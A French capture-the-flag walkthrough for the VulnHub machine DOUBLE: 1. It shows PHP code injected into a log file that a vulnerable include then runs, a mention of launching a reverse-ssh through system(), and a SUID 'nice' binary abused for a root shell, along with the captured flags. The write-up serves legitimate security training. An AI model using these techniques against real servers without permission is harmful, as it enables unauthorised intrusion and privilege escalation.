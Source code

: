 # Solution du CTF DOUBLE de VulnHub

[DOUBLE: 1](https://vulnhub.com/entry/double-1,632/) est un CTF proposé par *foxlox* sur VulnHub.

```
Nmap scan report for 192.168.56.48
Host is up (0.00028s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: shredder.calipendu.la, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=shredder.calipendu.la
| Subject Alternative Name: DNS:shredder.calipendu.la
| Not valid before: 2020-10-10T14:59:42
|_Not valid after:  2030-10-08T14:59:42
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    Apache httpd 2.4.38
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=HU?
|_http-server-header: Apache/2.4.38 (Debian)
```

On voit que le certificat ratatché au port 25 correspond à un DNS spécifique.

Il convient peut être de rajouter une entrée dans notre fichier */etc/hosts* si jamais le serveur web utilise un hôte virtuel spécifique. On peut tester cela avec cURL en passant directement le bon entête :

```shellsession
$ curl -H "Host: shredder.calipendu.la" http://192.168.56.48/

<center>
<h2>SSCS 0.3b - Super Secure Command Send</h2>

<a href=/production>Production</a> - <a href=http://192.168.56.48:8080/>TEST</a>
```

On va donc rajouter l'entrée avant d'aller plus loin :)

Quand on suit le lien Production on arrive sur un formulaire demandant une commande ainsi qu'un code.

A la soumission on est redirigé vers une page avec ce qui semble être des lignes de log où je retrouve ma commande :

`2022-11-06 07:52:26-192.168.56.1 - ls`

Comme la saisie de commandes bash ne semble pas avoir d'inpact je tente de passer du code PHP (`<?php phpinfo(); ?>`)dans le champ commande et cette fois il semble bien exécuté (extrait du phpinfo affiché) :

| SERVER_SOFTWARE       | Apache/2.4.38 (Debian)                   |
| --------------------- | ---------------------------------------- |
| SERVER_NAME           | shredder.calipendu.la                    |
| SERVER_ADDR           | 192.168.56.48                            |
| SERVER_PORT           | 80                                       |
| REMOTE_ADDR           | 192.168.56.1                             |
| DOCUMENT_ROOT         | /var/www/html                            |
| REQUEST_SCHEME        | http                                     |
| CONTEXT_PREFIX        | *no value*                               |
| CONTEXT_DOCUMENT_ROOT | /var/www/html                            |
| SERVER_ADMIN          | webmaster@localhost                      |
| SCRIPT_FILENAME       | /var/www/html/production/sendcommand.php |

On réitère l'opération cette fois avec un appel à la fonction `system()` qui nous permettra d'uploader et exécuter un reverse-ssh.

Une fois dans la VM on peut lire le code PHP vulnérable :

```php
Ask to admin to update config: set production=1<br><br>
<hr>
<?php
$cmd=$_POST['command'];
$controlcode=$_POST['controlcode'];
$fd=fopen("out","a");
fputs($fd,date('Y-m-d h:i:s')."-".$_SERVER['REMOTE_ADDR']." - ".$cmd."\r\n");
fclose($fd);

ini_set("display_errors",1);
$out=$_GET['out'];
echo "<pre>";
include $out;
?>
```

A la racine web je trouve un dossier appartenant à l'utilisateur *fox* mais je n'ai pas les droits nécessaires pour y accéder :

```shellsession
www-data@double:/var/www/html$ ls
total 20
drwxr-xr-x 4 root     root     4096 Nov  2  2020 .
drwxr-xr-x 3 root     root     4096 Nov  2  2020 ..
-rw-r--r-- 1 root     root      184 Nov  2  2020 index.php
drwxr-xr-x 2 www-data www-data 4096 Nov  6 19:59 production
drwxr-x--- 2 fox      nogroup  4096 Nov  2  2020 wasedrcftgvybhujnmbvtgcr
www-data@double:/var/www/html$ ls wasedrcftgvybhujnmbvtgcr
ls: cannot open directory 'wasedrcftgvybhujnmbvtgcr': Permission denied
```

## This is nice

Je continue du fouiller. Le système ne dispose pas de sudo mais je remarque quelque chose d'anormal au niveau des finaires setuid. La commande *nice* ne devrait pas figurer dans cette liste. L'objectif de cet exécutable est de lancer un programme en spécifiant sa priorité d'exécution (du point de vue CPU). On peut donc l'exploiter pour lancer un shell avec euid 0 :

```shellsession
www-data@double:/var/www/html$ find / -type f -perm -u+s 2> /dev/null 
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/su
/usr/bin/nice
/usr/bin/chfn
/usr/sbin/chroot
/usr/sbin/chpasswd
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
www-data@double:/var/www/html$ ls -al /usr/bin/nice
-rwsr-sr-x 1 root root 39552 Feb 28  2019 /usr/bin/nice
www-data@double:/var/www/html$ nice /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt 
c5315567687fe0e182bb87564ab54a7a
# cd /home/fox
# ls -al
total 24
drwxr-xr-x 2 fox  fox  4096 Dec  3  2020 .
drwxr-xr-x 4 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 fox  fox   220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 fox  fox  3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 fox  fox   807 Apr 18  2019 .profile
-rw------- 1 fox  fox    33 Dec  3  2020 local.txt
# cat local.txt
beef4039b5e78a23e80aa6560b93f429
```


